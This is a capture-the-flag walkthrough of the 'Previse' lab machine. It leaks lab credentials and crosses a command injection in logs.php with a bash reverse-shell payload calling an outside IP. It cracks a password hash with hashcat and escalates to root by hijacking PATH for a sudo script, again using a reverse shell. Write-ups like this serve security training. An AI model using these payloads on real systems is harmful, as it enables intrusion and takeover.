 ## Info
### Credential
 User   | Password        | Service | Note
--------|-----------------|---------|------
admin   |admin            |website  |
root    |mySQL_p@ssw0rd!:)|MySQL    |db_name=previse
m4lwhere|ilovecody112235! |         |

### Website


## Path
### User
1. Login the website with common credential `admin:admin`.
2. Found the website backup file `siteBackup.zip` at `/files.php/`, which contain the MySQL credential.
```
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```
3. `logs.php` is vulnerable to command injection. We can get reverse shell by the following request.
```
# logs.php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");

# Request
delim=comma;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.20/13337+0>%261'
```
4. Found `m4lwhere`'s hash in the MySQL database, then crack it with `hashcat`.
```
# MySQL
mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |

# hashcat
$ hashcat --username --force -m 500 m4lwhere.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
...
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```
5. Login as `m4lwhere` and get the user flag.

### Root
1. `m4lwhere` can run `/opt/scripts/access_backup.sh` as root.
```
m4lwhere@previse:/opt$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```
2. Since `date` doesn't specify the absolute path, I tried to hijack the binary search path and get good luck. Got the root flag.
```
m4lwhere@previse:/dev/shm$ echo "bash -c 'bash -i >& /dev/tcp/10.10.17.233/13337 0>&1'" > date
m4lwhere@previse:/dev/shm$ chmod +x date
m4lwhere@previse:/dev/shm$ PATH=/dev/shm:$PATH sudo /opt/scripts/access_backup.sh
 
# Rev Shell
$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.11.104 53124
root@previse:/dev/shm# whoami
root
```

3. From `root`, we can see that the `secure_path`, which is the default setting to prevent path hijacking, was turned off, so we can do the trick.
```
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
#Defaults       env_reset
#Defaults       mail_badpass
#Defaults       secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
# Allow manual backups of access logs as needed
m4lwhere ALL=(root) /opt/scripts/access_backup.sh
```

